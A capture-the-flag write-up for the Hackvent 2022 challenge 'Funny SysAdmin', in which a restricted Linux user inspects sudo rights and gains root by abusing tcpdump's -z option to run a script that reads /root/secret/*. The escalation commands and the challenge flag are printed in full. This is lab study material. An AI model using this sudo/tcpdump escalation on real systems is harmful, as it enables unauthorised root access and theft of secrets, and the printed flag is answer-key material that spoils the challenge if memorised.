 # 12 - Funny SysAdmin

## Description

Level: Medium<br/>
Author: wangibangi

Santa wrote his first small script, to track the open gifts on the wishlist. However the script stopped working a couple
of days ago and Santa has been stuck debugging the script. His sysadmin seems to be a bit funny ;)

## Solution

For this challenge, we are given a linux box with some restrictions. First, I checked the script mentioned in the
description:

```shell
santa@f5125016-5627-46be-ae27-0a3de9e4010e:/home/santa> cat santa-script.sh 
#!/bin/ash
echo "$(date)" >> /var/log/wishlist.log
curl -k https://brick-steep-tower.glitch.me/api/wishlist/items | jq .[].name >> /var/log/wishlist.log
echo "---------" >> /var/log/wishlist.log
```

Seems like we have to check out `/var/log/wishlist.log`:

```shell
cat: can't open '/var/log/wishlist.log': Permission denied
```

Okay, we need to get root access first to solve this challenge. To do this, I checked which binaries I could run with
sudo:

```shell
santa@f5125016-5627-46be-ae27-0a3de9e4010e:/home/santa> sudo -l
Matching Defaults entries for santa on f5125016-5627-46be-ae27-0a3de9e4010e:
    secure_path=/usr/foobar\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User santa may run the following commands on f5125016-5627-46be-ae27-0a3de9e4010e:
    (root) NOPASSWD: /usr/bin/less /var/log/*
    (root) NOPASSWD: !/usr/bin/less /var/log/*..*
    (root) NOPASSWD: !/usr/bin/less /var/log/* *
    (root) NOPASSWD: /usr/bin/tcpdump
```

`tcmpdump` seems to be an interesting binary that we can use to get root privileges. [And of course there's a GTFOBin
entry](https://gtfobins.github.io/gtfobins/tcpdump/). We can use the described exploit as follows:

First we write the following to a file `tmp.sh`:
```
#!/bin/sh
/bin/cat /root/secret/*
```

And then we can run:

```shell
sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./tmp.sh -Z root
```

To get the content of the secret folder: `HV22{M4k3-M3-a-S4ndW1ch}`.

